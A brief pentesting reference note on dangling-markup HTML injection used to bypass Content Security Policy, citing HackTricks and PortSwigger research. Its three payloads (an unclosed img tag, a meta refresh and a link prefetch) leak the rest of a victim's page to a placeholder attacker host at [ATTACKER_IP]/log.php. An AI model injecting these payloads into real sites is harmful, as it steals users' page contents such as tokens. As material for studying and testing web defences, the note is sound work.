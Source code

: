 #csp #html_injection

This technique can be use to extract information from a user when an **HTML injection is found**.

## Resources
- https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection
- https://portswigger.net/research/evading-csp-with-dom-based-dangling-markup

## Example Dangling with low CSP
```html
<img src='http://[ATTACKER_IP]/log.php?HTML=
```

## Example Dangling with restrictive CSP :
```html
<meta http-equiv="refresh" content='0; url=http://[ATTACKER_IP]/log.php?text=
```

```html
<link rel="prefetch" href='http://[ATTACKER_IP]/?
```
